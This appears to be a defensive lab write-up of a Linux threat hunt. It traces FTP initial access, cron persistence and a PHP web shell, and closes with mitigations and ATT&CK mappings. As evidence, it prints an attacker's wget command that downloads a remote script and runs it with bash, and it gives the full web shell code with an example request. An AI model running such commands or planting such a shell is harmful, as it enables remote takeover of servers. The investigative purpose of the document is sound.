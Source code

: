 # Lab: Linux System Hunt

## Scenario 

A potential compromise on a Linux developer server after suspicious Slack activity and unusual network connections were reported.The objective was to investigate potential host-based indicators and confirm whether the two incidents were related.

## Summary
The threat actor gained initial access to the server via FTP and established persistence using a cron job that periodically downloaded and executed a malicious shell script. Further analysis revealed the use of a PHP web shell for remote command execution.

### Commands Executed

| Purpose | Command |
|---|---|
| Identify successful FTP authentications | `journalctl \| grep -i "ftp" \| grep -i "success"` |
| Inspect `/tmp` activity | `journalctl \| grep -i /tmp` |
| Find files modified within time window | `find / -newermt "3 Sept 2021 06:00:03" ! -newermt "3 Sept 2021 06:01:47" 2>/dev/null` |
| Review activity for account `ftpadam` | `journalctl \| grep ftpadam \| grep "110.44.125.139"` |

## Findings (timeline)

### Initial Access
- Timestamp: Sept 3, 2021 – 05:52:31
- Method: FTP login using account ftpadam
- Source IP: 110.44.125.139
- Evidence of successful FTP authentication confirming external access to the system.
![FTP](FTP.png)  

### Persistence
- Timestamp: Sept 5, 2021 – 00:00:01
- Mechanism: A shell script was dropped in /tmp via wget, made executable, and executed by root.
- Command observed in logs: `wget http://crest.tt/bJx3 -O /tmp/tmp.sh && chmod +x /tmp/tmp.sh && bash /tmp/tmp.sh`


- A weekly cron job was also created to automatically download and execute the same remote script as root, ensuring continuous persistence.
![Shell Script](Shell_Script.png)
![Cron Job](Cron_Job.png)      

### Remote code execution via web shell
A PHP file was. The snippet in the screenshot below checks whether an HTTP parameter named z was provided (\$_REQUEST["z"]). If so, it prints a "pre" tag, assigns the parameter to \$z, and calls system(\$z). system() executes the string as a shell command on the server and returns output. *die* ends script execution after running the command. An attacker can send `http://victim/shell.php?z=whoami` (or other commands) and have the server run arbitrary shell commands as the web server user

Snippet observed:
`<?php 
if(isset($_REQUEST["z"])) {
  echo "<pre>"; 
  $z = ($_REQUEST["z"]); 
  system($z); 
  echo "</pre>"; 
  die; 
}
?>`

### Last Activity
The attacker’s last observed activity occurred at Sept 3, 2021 – 09:25:25.
![Last Activity](last_activity.png) 


## Mitigation Recommendations
- Rotate all service passwords and kill sessions for user account `ftpadam`
- Block ip `110.44.125.139` at the firewall level
- Remove the cron jobs created by the actor
- Remove malicious PHP web shell
- Install an IDS/IPS for future monitoring


## MITRE ATT&CK Mapping
- T1133 (initial access via remote services)
- T1053.003 (Persistence via Scheduled Task/Job)

